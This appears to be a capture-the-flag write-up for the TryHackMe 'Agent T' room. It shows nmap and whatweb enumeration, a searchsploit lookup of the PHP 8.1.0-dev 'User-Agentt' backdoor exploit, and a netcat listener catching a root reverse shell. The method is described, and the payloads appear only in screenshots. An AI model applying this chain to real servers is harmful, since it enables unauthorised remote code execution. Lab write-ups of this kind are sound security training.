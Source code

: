# [Agent T VM](https://tryhackme.com/r/room/agentt)

## Enumeration

We start enumarating the open port with **nmap**.

```shell
$sudo nmap -p- --open -n -Pn -sS --min-rate 2000 10.10.94.181

Not shown: 58823 closed tcp ports (reset), 6711 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
```

Only the port 80 is open, so we will analize the web.

![dashboard](./images/dashboard.png)

Allmost all the features do no work and we can only find the other urls such as:

* http://10.10.94.181/index.html
* http://10.10.94.181/404.html
* http://10.10.94.181/blank.html

The first url does not work and we notice that the page uses php behind sience the main page is http://10.10.94.181/index.php instead of http://10.10.94.181/index.html.

We use whatweb to optain more information from the web.

```shell
$ whatweb http://10.10.94.181/
http://10.10.94.181/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.10.94.181], JQuery, PHP[8.1.0-dev], Script, Title[Admin Dashboard], X-Powered-By[PHP/8.1.0-dev], X-UA-Compatible[IE=edge]
```

![burpsuit-history](./images/burpsuit-history.png)

We obtain the thet *php version is  8.1.0-dev* and a header *X-Powered-By*  indicating the same. We will look an exploit for taht version.

```shell
$ searchsploit php 8.1.0-dev
-------------------------------------------------------------------------------------------
 Exploit Title                                                      |  Path-
-------------------------------------------------------------------------------------------
...
OPNsense < 19.1.1 - Cross-Site Scripting                            | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                 | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                            | php/remote/25986.txt
...
-------------------------------------------------------------------------------------------
Shellcodes: No Results
```

```shell
$ searchsploit -p 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied EDB-ID #49933's path to the clipboard
```

We find a Remote Code Execution, and if we analyze the code in *https://www.exploit-db.com/exploits/49933* we see that it only adds a header *User-Agentt*.

We try with burpsuit and see that we manage to execute commands.

![burpsuit-comand](./images/burpsuit-comand.png)

We generate the rever shell.

![burpsuit-revshell](./images/burpsuit-revshell.png)

```shell
$sudo nc -lvnp 443
[sudo] password for martin: 
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.94.181] 47662
sh: 0: can't access tty; job control turned off
# whoami
root
```

We are root, search the flag.

